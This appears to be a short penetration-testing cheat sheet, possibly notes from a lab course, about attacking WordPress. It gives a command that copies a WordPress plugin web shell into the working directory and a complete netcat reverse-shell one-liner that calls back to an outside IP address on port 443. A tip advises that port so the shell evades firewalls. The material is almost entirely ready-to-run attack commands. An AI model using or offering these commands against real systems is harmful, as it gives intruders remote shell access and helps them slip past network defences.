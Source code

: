**Copy a wordpress plugin reverse shell into working dir**
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```


**Command to initiate a reverse shell**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.167 443 >/tmp/f
```

> [!note] 
> Use port 443 for reverse shell to evade firewall 